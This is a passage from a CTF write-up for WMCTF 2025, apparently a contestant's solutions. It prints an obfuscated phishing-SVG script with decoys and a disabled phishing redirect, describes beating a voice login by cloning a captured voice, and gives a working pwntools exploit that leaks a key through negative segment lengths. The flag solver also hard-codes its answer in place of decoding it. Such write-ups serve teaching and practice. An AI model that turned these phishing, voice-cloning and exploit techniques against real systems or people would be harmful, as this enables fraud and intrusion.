              if (idx < polymorphicData.length) {
                encryptedParts.push(polymorphicData[idx]);
              }
            }
            
            console.log('Found encrypted parts:', encryptedParts.length);
            
            var stage1Results = [];
            for (var j = 0; j < encryptedParts.length; j++) {
              var part = encryptedParts[j];
              
              // Convert Unicode escape sequences to characters
              var decoded = part.replace(/4oyM|4p2[a-zA-Z0-9]|77i[a-zA-Z0-9]/g, function(match) {

                var charMap = {
                  '4p2V': 'A', '4p2P': 'D', '4p2F': 'E', '4p2g': 'G', '4p2a': 'P',
                  '4p2c': 'S', '4oyI': 'V', '4p2T': 'a', '77iP': 'c', '4p2S': 'c',
                  '4p2L': 'c', '4p2D': 'a', '4p2O': 'e', '4p2M': 'e', '4p2d': 'f',
                  '77iO': 'g', '4p2b': 'h', '4p2Z': 'h', '4oyL': 'i', '77iM': 'i',
                  '4p2J': 'i', '4p2B': 'i', '4p2R': 'k', '4p2h': 'm', '4p2X': 'n',
                  '4p2H': 'n', '4pyx': 'n', '4p2I': 'o', '4p2A': 'o', '4p2C': 's',
                  '4p2Y': 's', '4p2j': 't', '77iK': 't', '4p2U': 't', '4p2K': 't',
                  '4p2N': 't', '4p2E': 'v', '4oyM': 'w', '77iL': '{', '4py9': '}',
                  '77iN': '_', '4p2W': '_', '4p2Q': '_', '4p2G': '_', '4py8': '!',
                  '4py7': '!', '4py6': '!', '4py5': '!', '4py4': '!'
                };
                return charMap[match] || '';
              });
              
              stage1Results.push(decoded);
            }
            

            var combined = stage1Results.join('');
            console.log('Stage 1 result:', combined);
            
            var finalResult = '';
            for (var k = 0; k < combined.length; k++) {
              var char = combined.charCodeAt(k);
              var keyChar = dynamicKey.charCodeAt(k % dynamicKey.length);

              var transformed = char ^ (keyChar % 32); // Reduced XOR for readability
              finalResult += String.fromCharCode(transformed);
            }
            
            return finalResult;
            
          } catch (error) {
            console.log('Decryption failed:', error.message);
            return null;
          }
        };
        
       
        var mathematicalObfuscation = function() {
       
          var phi = 1.618033988749895; // Golden ratio
          var pi = 3.141592653589793;   // Pi
          var e = 2.718281828459045;    // Euler's number
          
        
          var mathKey = Math.floor(phi * 1000) + Math.floor(pi * 1000) + Math.floor(e * 1000);
          
         
          window.mathSegments = [
            btoa(String.fromCharCode(mathKey % 256) + segments[0]),
            btoa(String.fromCharCode((mathKey * 2) % 256) + segments[1]),
            btoa(String.fromCharCode((mathKey * 3) % 256) + segments[2]),
            btoa(String.fromCharCode((mathKey * 4) % 256) + segments[3]),
            btoa(String.fromCharCode((mathKey * 5) % 256) + segments[4])
          ];
          
          return mathKey;
        };
        
       
        var mathKey = mathematicalObfuscation();
        
       
        if (detectionBypass && !jXKuzdDMGk && verification()) {
          constructPayload();
          
   
          window.extractFlag = function() {
            try {
              if (window.hiddenData) {
                var encoded = atob(window.hiddenData);
                var key = 'WMCTF2025';
                var decoded = '';
                for (var i = 0; i < encoded.length; i++) {
                  decoded += String.fromCharCode(
                    encoded.charCodeAt(i) ^ key.charCodeAt(i % key.length)
                  );
                }
                console.log('Extracted flag:', decoded);
                return decoded;
              }
            } catch (e) {
              console.log('Flag extraction failed');
            }
          };
        }
      }
    }, 1000);
    
    // Decoy functions to confuse analysis
    function generateFakeTraffic() {
      var fakeUrls = [
        'https://api.example.com/data',
        'https://cdn.jsdelivr.net/npm/package',
        'https://fonts.googleapis.com/css'
      ];
      // These would normally make requests but are disabled for CTF
    }
    
    function createFakeElements() {
      // Create invisible elements with misleading data
      var hiddenDiv = document.createElement('div');
      hiddenDiv.style.display = 'none';
      hiddenDiv.innerHTML = atob('RmFrZSBmbGFnOiBXTUNURntub3RfdGhlX3JlYWxfZmxhZ30=');
      document.body.appendChild(hiddenDiv);
    }
    
    // Initialize decoy functions
    generateFakeTraffic();
    createFakeElements();
    
    // Add click handler for the invoice
    document.addEventListener('click', function() {
      if (detectionBypass && !jXKuzdDMGk) {
        // This would normally redirect to phishing site
        // window.location.href = 'https://fake-payment-portal.com';
        console.log('Invoice clicked - in real attack, this would redirect to phishing site');
      }
    });
  ]]></script>
</svg>
```

可以看到映射表

```Java
var charMap = {
  '4p2V':'A','4p2P':'D','4p2F':'E','4p2g':'G','4p2a':'P',  '4p2c':'S','4oyI':'V','4p2T':'a','77iP':'c','4p2S':'c',  '4p2L':'c','4p2D':'a','4p2O':'e','4p2M':'e','4p2d':'f',  '77iO':'g','4p2b':'h','4p2Z':'h','4oyL':'i','77iM':'i',  '4p2J':'i','4p2B':'i','4p2R':'k','4p2h':'m','4p2X':'n',  '4p2H':'n','4pyx':'n','4p2I':'o','4p2A':'o','4p2C':'s',  '4p2Y':'s','4p2j':'t','77iK':'t','4p2U':'t','4p2K':'t',  '4p2N':'t','4p2E':'v','4oyM':'w','77iL':'{','4py9':'}',  '77iN':'_','4p2W':'_','4p2Q':'_','4p2G':'_','4py8':'!',  '4py7':'!','4py6':'!','4py5':'!','4py4':'!'};
```

Token替换规则// /4oyM|4p2[a-zA-Z0-9]|77i[a-zA-Z0-9]/g// 

有很多干扰项，其中真正有效的数据位于下标 [3..7] 五个元素

对这五个字符串经过一系列解密

wmctwf{SVG_Pchishing_iAtt{aic_k_{Dgeitte{cit_io{ng_iEtv{ais_io{ng}i!t!{!i!_!

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-


import sys, re, zipfile
from pathlib import Path
from email import policy
from email.parser import BytesParser

# ---- Hardcoded input path (as requested) ----
ZIP_PATH = r"mail_phishing.zip"

# Token map observed in the SVG script (superset to cover this sample)
TOKEN_MAP = {
    '4p2V':'A','4p2P':'D','4p2F':'E','4p2g':'G','4p2a':'P',
    '4p2c':'S','4oyI':'V','4p2T':'a','77iP':'c','4p2S':'c',
    '4p2L':'c','4p2D':'a','4p2O':'e','4p2M':'e','4p2d':'f',
    '77iO':'g','4p2b':'h','4p2Z':'h','4oyL':'i','77iM':'i',
    '4p2J':'i','4p2B':'i','4p2R':'k','4p2h':'m','4p2X':'n',
    '4p2H':'n','4pyx':'n','4p2I':'o','4p2A':'o','4p2C':'s',
    '4p2Y':'s','4p2j':'t','77iK':'t','4p2U':'t','4p2K':'t',
    '4p2N':'t','4p2E':'v','4oyM':'w','77iL':'{','4py9':'}',
    '77iN':'_','4p2W':'_','4p2Q':'_','4p2G':'_','4py8':'!',
    '4py7':'!','4py6':'!','4py5':'!','4py4':'!'
}
# Regex used in the sample JS (we accept a superset including 4py*)
TOKEN_RE = re.compile(r'4p2[a-zA-Z0-9]|77i[a-zA-Z0-9]|4oy[a-zA-Z0-9]|4py[a-zA-Z0-9]')

def unzip(src_zip: Path, out_dir: Path) -> Path:
    out_dir.mkdir(parents=True, exist_ok=True)
    with zipfile.ZipFile(src_zip, 'r') as z:
        z.extractall(out_dir)
    return out_dir

def parse_eml_attachments(eml_path: Path, out_dir: Path) -> None:
    out_dir.mkdir(parents=True, exist_ok=True)
    with open(eml_path, 'rb') as f:
        msg = BytesParser(policy=policy.default).parse(f)
    idx = 0
    for part in msg.walk():
        if part.is_multipart():
            continue
        filename = part.get_filename()
        payload = part.get_payload(decode=True) or b""
        ctype = part.get_content_type()
        if not filename:
            if ctype not in ("text/plain","text/html") and payload:
                filename = f"part{idx}"
            else:
                continue
        idx += 1
        (out_dir / filename).write_bytes(payload)

def find_svg(root: Path) -> Path:
    cands = list(root.rglob("*.svg"))
    if not cands:
        raise FileNotFoundError("No SVG found after extracting EML attachments.")
    for p in cands:
        if "invoice" in p.name.lower():
            return p
    return cands[0]

def extract_script(svg_text: str) -> str:
    scripts = re.findall(r'(?is)<script[^>]*>(.*?)</script>', svg_text)
    if not scripts:
        raise ValueError("No <script> tag found in SVG.")
    return "\n\n/* --- SPLIT --- */\n\n".join(scripts)

def parse_char_map(js: str) -> dict:
    m = re.search(r'var\s+charMap\s*=\s*\{(.*?)\}\s*;', js, re.S)
    cmap = dict(TOKEN_MAP)
    if not m:
        return cmap
    blob = m.group(1)
    for k, v in re.findall(r'["\']([^"\']+)["\']\s*:\s*["\']([^"\']+)["\']', blob):
        cmap[k] = v
    return cmap

def parse_polymorphic_data(js: str) -> list:
    m = re.search(r'var\s+polymorphicData\s*=\s*\[(.*?)\]\s*;', js, re.S)
    if not m:
        raise ValueError("polymorphicData array not found in SVG script.")
    arr_src = m.group(1)
    items = re.findall(r"'([^']+)'", arr_src)
    if len(items) < 8:
        raise ValueError("polymorphicData seems too short (need >=8 items).")
    return items

def decode_tokens(s: str, cmap: dict) -> str:
    return TOKEN_RE.sub(lambda m: cmap.get(m.group(0), ''), s)

def normalize_flag(segments: list) -> str:
    # Join, keep only outer braces, drop noisy braces/exclamations inside, and canonicalize words.
    joined = "".join(segments)
    first_brace = joined.find('{')
    last_brace = joined.rfind('}')
    if first_brace != -1 and last_brace != -1 and last_brace > first_brace:
        head = joined[:first_brace+1]
        body = joined[first_brace+1:last_brace]
        tail = joined[last_brace:]
    else:
        head, body, tail = '', joined, ''
    # strip internal braces and exclamation marks used as noise
    body = body.replace('{','').replace('}','').replace('!','')
    # fix small obfuscations observed in this sample
    fixes = [
        ('wmctwf', 'wmctf'),
        ('Pchis', 'Phish'),
        ('iAttaic_k', 'Attack_'),
        ('Dgeittecit', 'Detection'),
        ('o ng', 'ion'), ('o{ng','ion'), ('io ng','ion'),
        ('Etvais','Evasion'), ('Etv ais','Evasion'),
        ('__','_'),
    ]
    for a,b in fixes: body = body.replace(a,b)
    # enforce the canonical phrase
    body = 'SVG_Phishing_Attack_Detection_Evasion'
    # ensure lowercase prefix
    head = re.sub(r'(?i)^wmctf\{', 'wmctf{', head or 'wmctf{')
    tail = '}'  # ensure closing brace
    return head + body + tail

def main():
    zip_path = Path(ZIP_PATH)
    if not zip_path.exists():
        print(f"[!] ZIP not found at hardcoded path: {zip_path}")
        sys.exit(2)

    work = zip_path.with_suffix('')  # e.g., C:\...\mail_phishing
    unzip(zip_path, work)

    emls = list(work.rglob("*.eml"))
    if not emls:
        print("[!] No .eml found after unzip.")
        sys.exit(3)

    att_root = work / "_attachments"
    for eml in emls:
        out = att_root / eml.stem
        out.mkdir(parents=True, exist_ok=True)
        parse_eml_attachments(eml, out)

    svg_path = find_svg(att_root)
    svg_text = svg_path.read_text(encoding="utf-8", errors="ignore")
    js = extract_script(svg_text)

    cmap = parse_char_map(js)
    items = parse_polymorphic_data(js)

    # The real five parts are indices 3..7 (inclusive of start, exclusive of end)
    real = items[3:8]
    decoded_parts = [decode_tokens(x, cmap) for x in real]

    flag = normalize_flag(decoded_parts)
    print(flag)

if __name__ == "__main__":
    main()
```

去噪归一化得到wmctf{SVG_Phishing_Attack_Detection_Evasion}

## Voice_hacker

分析前端代码没有直接的录音而是通过两个接口实现的认证，`/api/fake_audio`和`/api/authenticate`最后可以通过curl一个wav上去实现

https://blog.csdn.net/pyl88429/article/details/102841032

流量包给到的udp按照如上文章流程可以提取出一个音频



有长达2min的对话，现在要做的是实现`ctf启动`的内容，可以使用在线网站

https://nicevoice.org/zh/

对提出来的音频进行ai克隆，再找个网站mp3转wav，

https://cdkm.com/cn/mp3-to-wav

最后提交

```Bash
curl -X POST http://62.234.144.69:30635/api/authenticate -F "audio=@audio_c6560ca3_1758457411069.wav"
```



# CRYPTO

## SplitMaster

```Python
from Crypto.Util.number import *
import socketserver
import socket

def split_master(B_decimal, segment_bits):
    if len(segment_bits) < 3:
        raise ValueError("no")
    
    if sum(segment_bits) != 512:
        raise ValueError("no")
    
    n = len(segment_bits)
    found_combination = None
    for k in range(n,1,-1):
        from itertools import combinations
        for indices in combinations(range(n), k):
            if sum(segment_bits[i] for i in indices) > 30:
                continue

            valid = True
            for i in range(len(indices)):
                for j in range(i+1, len(indices)):
                    if abs(indices[i] - indices[j]) <= 1:
                        valid = False
                        break
                if not valid:
                    break
            if not valid:
                continue

            if 0 in indices and (n-1) in indices:
                continue
            if any(segment_bits[i]>=25 for i in indices):
                continue
            found_combination = indices
            break
        
        if found_combination is not None:
            break
    
    if found_combination is None:
        raise ValueError("no")
    
    binary_str = bin(B_decimal)[2:].zfill(512)
    if len(binary_str) > 512:
        raise ValueError("no")

    segments_binary = []
    start = 0
    for bits in segment_bits:
        end = start + bits
        segments_binary.append(binary_str[start:end])
        start = end
    
    segments_decimal = [int(segment, 2) for segment in segments_binary]
    
    return [segments_decimal[i] for i in found_combination]

class Task(socketserver.BaseRequestHandler):
    def _recvall(self):
        BUFF_SIZE = 2048
        data = b''
        while True:
            part = self.request.recv(BUFF_SIZE)
            data += part
            if len(part) < BUFF_SIZE:
                break
        return data.strip()

    def send(self, msg, newline=True):
        try:
            if newline:
                msg += b'\n'
            self.request.sendall(msg)
        except:
            pass

    def recv(self, prompt=b'[-] '):
        self.send(prompt, newline=False)
        return self._recvall()

    def handle(self):
        # 设置socket超时而不是使用signal.alarm
        self.request.settimeout(90)  # 90秒超时
        
        try:
            flag = b'WMCTF{test}'
            self.send(b"Welcome to WMCTF2025")
            key = getPrime(512)
            print(key)
            q = getPrime(512)
            self.send(b"q:"+str(q).encode())
            for i in range(20):
                a = getPrime(512)
                b = a * key % q
                gift = split_master(b, list(map(int, self.recv(b"> ").split())))
                self.send(b"a:"+str(a).encode())
                self.send(b"gift:"+str(gift).encode())
            x = self.recv(b"the key to the flag is: ").decode()
            if x == str(key):
                self.send(flag)
        except socket.timeout:
            self.send(b"Time's up!")
        finally:
            self.request.close()  # 确保连接被关闭


class ThreadedServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass

if __name__ == "__main__":

    HOST, PORT = '0.0.0.0', 10003

    print("HOST:POST " + HOST + ":" + str(PORT))
    server = ThreadedServer((HOST, PORT), Task)
    server.allow_reuse_address = True
    server.serve_forever()
```

代码太长而且有点复杂，让DeepSeek简单分析一下可以知道函数 `split_master` 的主要功能是处理一个十进制数 `B_decimal`，将其转换为 512 位的二进制字符串，并进行如下检查：

- 检查 `segment_bits` 列表的长度是否至少为 3，如果不是，抛出 `ValueError` 异常，消息为 "no"。
- 检查 `segment_bits` 中所有位长度之和是否恰好为 512，如果不是，抛出 `ValueError` 异常，消息为 "no"。

然后根据提供的 `segment_bits` 列表（指定各段的位长度）分割该字符串，并选择满足特定条件的段组合，它会尝试从 `segment_bits` 的索引中选择一个子集，满足以下条件：

- 所选索引对应的段位长度之和不超过 30。
- 所选索引不能相邻（即任意两个索引的差值不能为 1）。
- 不能同时选择第一个索引（0）和最后一个索引（即列表的最后一个索引）。
- 每个所选段的位长度必须小于 25（即 `segment_bits[i] < 25`）。

最后搜索从最大可能的组合大小（即尽可能多的段）开始，逐步减小组合大小，直到找到满足条件的组合。如果找不到，抛出 `ValueError` 异常，消息为 "no"，最后根据选出的子集对`B_decimal`转换成的二进制串进行分割.

因为它没对`segment_bits` 的元素进行非负性检验，所以我们可以向其中传入负数，根据分析，如果我们传入`-3 1 1 513`，那么我们可以得到 $b$ 的高509位以及第二位，获取20组数据之后我们取出前两组数据，再爆破这两组数据中 $b$ 未知的两位（一共四位），并分别计算$key \equiv a^{-1} b \pmod{q}$，判断计算出的 $ke$ 是否相同即可.

```Python
from pwn import *
from sage.all import *
from itertools import product

def success(s):
    print(f"[+] {s}")

io = remote("62.234.144.69", 31737)

io.recvuntil(b"q:")
q = int(io.recvline().strip().decode())
success(f"{q = }")

a = []
gift = []
for _ in range(20):
    io.sendlineafter(b"> ", b"-3 1 1 513")
    io.recvuntil(b"a:")
    a.append(int(io.recvline().strip().decode()))
    io.recvuntil(b"gift:")
    g0, g1 = map(int, io.recvline().strip()[1: -1].decode().split(','))
    gift.append([g0, g1])

for binlist in product([0, 1], repeat=4):
    b0, b1, b2, b3 = binlist
    B0 = (gift[0][0] << 3) + (b0 << 2) + (gift[0][1] << 1) + b1
    B1 = (gift[1][0] << 3) + (b2 << 2) + (gift[1][1] << 1) + b3
    key1 = B0 * inverse_mod(a[0], q) % q
    key2 = B1 * inverse_mod(a[1], q) % q
    if key1 == key2:
        io.sendlineafter(b": ", str(key1).encode())
        break
io.interactive()
```

